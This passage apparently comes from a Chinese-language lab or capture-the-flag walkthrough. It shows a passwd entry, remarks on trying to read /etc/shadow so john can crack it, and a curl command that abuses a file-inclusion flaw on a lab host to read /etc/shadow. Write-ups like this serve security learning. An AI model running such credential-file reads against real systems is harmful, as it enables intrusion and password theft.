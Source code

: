 ```bash
ica:x:1000:1000:ica,,,:/home/ica:/bin/bash
                                             
```

那再看看有没有可能还能读出`shadow`，能读出来，那就可以配合`john`解密，但是现实往往是残酷的~

![image-20240310172807572](imgs/image-20240310172807572.png)

前面有些路径页面并没有现实，那么通过文件包含看看有哪些信息吧？

```bash
└─$ curl -X POST -d "file=/etc/shadow" http://10.10.10.28/test                     
```

![image-20240310173202000](imgs/image-20240310173202000.png)
